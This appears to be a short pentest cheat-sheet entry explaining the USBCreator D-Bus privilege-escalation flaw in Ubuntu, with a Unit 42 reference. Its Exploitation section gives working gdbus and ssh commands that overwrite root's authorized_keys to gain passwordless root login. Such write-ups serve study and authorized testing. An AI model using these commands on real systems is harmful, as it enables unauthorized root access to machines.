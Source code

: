 
# Explanation
A vulnerability in the **USBCreator D-Bus** interface allows an attacker with access to a user in the *sudoer* group to bypass the password security policy imposed by the *sudo* program. 
The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root - without supplying a password.

# Overview
If a running process uses `com.ubuntu.USBCreator` and the process is privileged one can move onto the exploitation phase.

# Exploitation
This particular example is for adding the attacker's `SSH` key to the authorised keys, so that they can login without a password.

```bash
remote-machine> ps auwx | grep usb
remote-machine> echo "attacker_idrsa_key" > ~/authorized_keys
remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```

# References

- [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
